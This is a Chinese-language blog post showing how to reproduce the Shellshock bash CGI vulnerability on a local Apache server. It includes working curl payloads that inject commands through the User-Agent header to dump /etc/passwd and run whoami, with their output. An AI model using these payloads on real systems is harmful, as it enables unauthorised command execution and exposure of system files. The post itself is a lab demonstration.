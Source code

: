 ```yaml
---
title: Bash shock安全漏洞测试
tags: bash 漏洞
layout: default
---
```


昨天从微信上面，看到朋友发的最新的bash漏洞信息，感觉真的很可怕，现在互联网公司几乎都有使用到bash。现在我来带领大家实践一下使用这个漏洞的过程。

### 使Apache支持bash cgi
首先要确认Apache里面的CGI模块已经被载入 在httpd.conf 里面有一句：`LoadModule cgi_module modules/mod_cgi.so`这个必须有，然后搜索cgi-bin如果没有的话添加一段`ScriptAlias /cgi-bin/ "/var/www/cgi-bin"`

### 测试bash cgi Hello world
编辑文件：`vim /var/www/cgi-bin/hello.cgi`

    #!/bin/bash
    echo Content-type: text/html
    echo ""
    echo Hello, world.

执行以下命令：

    # chmod 755 /var/www/cgi-bin/hello.cgi`
    # curl localhost/cgi-bin/hello.cgi
    输出以下内容则代表Apache已经支持CGI了，就可以继续我们下面的测试
    Hello, world.

### 最可怕的测试

    localhost ~ # curl -A "() { :; }; echo ; /bin/cat /etc/passwd" http://localhost/cgi-bin/hello.cgi
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/bin/false
    daemon:x:2:2:daemon:/sbin:/bin/false
    adm:x:3:4:adm:/var/adm:/bin/false
    lp:x:4:7:lp:/var/spool/lpd:/bin/false
    ... ... 

    localhost ~ # curl -A "() { :; }; echo ; /usr/bin/whoami" http://localhost/cgi-bin/hello.cgi
    apache

有牛人对这个漏洞进行了分析，本人表示看不懂，可以看一下
[Bash 3.0-4.3命令执行漏洞分析（by@知道创宇 lu4nx）](http://weibo.com/p/1001603758737234992740)
